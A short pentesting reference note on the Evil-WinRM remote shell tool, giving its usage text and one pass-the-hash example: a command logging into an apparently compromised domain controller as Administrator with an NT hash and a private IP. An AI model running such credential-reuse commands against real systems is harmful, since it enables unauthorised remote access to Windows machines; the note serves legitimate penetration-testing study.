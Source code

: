 # Evil-WinRm 
An *evil* #WinRM (Windows Remote Management, #Microsoft implementation of #WS-Management protocol) shell for hacking/pentesting, written in #Ruby.

Github: https://github.com/Hackplayers/evil-winrm

NOTE: That it doesn't really use the WinRM protocl anymore, instead utilizing #PSRP ( #Powershell Remoting Protocol)

## Usage
Usage message:
```
Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -h, --help                       Display this help message
```

## Examples
### Pass-the-Hash
Evil-WinRM can be used to perform #pass-the-hash attacks. The following is an example of such an attack on a #DC compromised by #zerologon:
`evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.234.114`

Results in:
![[evil-winrm-passthehash-dc.png]]